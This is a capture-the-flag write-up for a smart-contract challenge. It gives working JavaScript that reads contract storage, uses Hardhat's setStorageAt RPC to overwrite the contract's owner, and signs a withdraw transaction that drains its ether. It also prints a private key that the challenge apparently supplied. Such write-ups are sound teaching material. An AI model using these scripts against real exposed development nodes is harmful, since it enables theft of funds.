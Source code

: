 # Blockchain in dev - web3

## Contracts

### Challenge

We get one challenge contract, and want to get all value of it out of the contract. We also receive a address (including private key) on the chain which we can use to sign transactions.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;

import "@openzeppelin/contracts/access/Ownable.sol";

contract Challenge is Ownable{

	constructor() payable {
        require(msg.value == 100 ether,"100ETH required for the start the challenge");
	}

    function withdraw(address payable beneficiary) public onlyOwner {
        beneficiary.transfer(address(this).balance);
    }
}
```

We also get the setup contract, as well as it's address.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;
import "./Challenge.sol";

contract Setup {
	Challenge public chall;

	constructor() payable {
		require(msg.value >= 100, "Not enough ETH to create the challenge..");
		chall = (new Challenge){ value: 50 ether }();
	}

	function isSolved() public view returns (bool) {
		return address(chall).balance == 0;
	}
}

```

The challenge description mentions that the blockchain was deployed using hardhat.


## Solution

First we want to get the address where our challenge contract was deployed. This can be done by retrieiving storage(0) of the setup contract.

```
const Web3 = require('web3');

// create a new instance of the web3 object
const web3 = new Web3('https://blockchainindev.insomnihack.ch:32889');

// set the address of the contract
const contractAddress = '0x444A7432CCb1F393Ac6c5642298F403E32128F0a';

// call the getStorageAt() function to retrieve the value stored at index 0
web3.eth.getStorageAt(contractAddress, 0, (error, result) => {
  if (error) {
    console.error(error);
  } else {
    console.log('Challenge:', result);
  }
});
```

Then it's also helpful if we can check for what the owner of the challenge currently is to be able to debug.

```
const Web3 = require('web3');

// create a new instance of the web3 object
const web3 = new Web3('https://blockchainindev.insomnihack.ch:32915');

// set the address of the contract
const contractAddress = '0xbd3333aa8b94e3eb97cdf6638676bbbfcfdb9bc6';

// call the getStorageAt() function to retrieve the value stored at index 0
web3.eth.getStorageAt(contractAddress, 0, (error, result) => {
  if (error) {
    console.error(error);
  } else {
    console.log('Owner:', result);
  }
});
```

After some groundwork we can start exploiting. The idea I had, which also was the exploit in the end, was that we could leverage some hardhat functionality to change the blockchain data as we want. I used the setStorageAt() function to just overwrite the owner of the challenge contract, so we can easily drain it.

```
const { ethers } = require('hardhat');

const provider = new ethers.providers.JsonRpcProvider('https://blockchainindev.insomnihack.ch:32915');

const toBytes32 = (bn) => {
  return ethers.utils.hexlify(ethers.utils.zeroPad(bn.toHexString(), 32));
};

const setStorageAt = async (address, index, value) => {
  await provider.send("hardhat_setStorageAt", [address, index, value]);
  await provider.send("evm_mine", []); // Just mines to the next block
};

(async () => {
  await setStorageAt(
    "0xbd3333aa8b94e3eb97cdf6638676bbbfcfdb9bc6",
    "0x0",
    "0x000000000000000000000000133756e1688E475c401d1569565e8E16E65B1337"
  );
})();
``` 

When we have overwritten the owner we can easily drain it. Script below:

```
const Web3 = require('web3');
const abi = require('./abi.json');

const privateKey = '0xedbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
const account = '0x133756e1688E475c401d1569565e8E16E65B1337';
const contractAddress = '0xbd3333aa8b94e3eb97cdf6638676bbbfcfdb9bc6';
const recipientAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
const rpcUrl = 'https://blockchainindev.insomnihack.ch:32915';

const web3 = new Web3(rpcUrl);
const contract = new web3.eth.Contract(abi, contractAddress);

async function withdraw(recipient) {
  const nonce = await web3.eth.getTransactionCount(account);
  const gasPrice = await web3.eth.getGasPrice();

  const functionAbi = contract.methods.withdraw(recipient).encodeABI();

  const txParams = {
    to: contractAddress,
    data: functionAbi,
    gasPrice: gasPrice,
    gas: 100000, // Add the gas parameter with a value of your choice
    nonce: nonce
  };

  const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
  const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
  console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

withdraw(recipientAddress);
```
--> Flag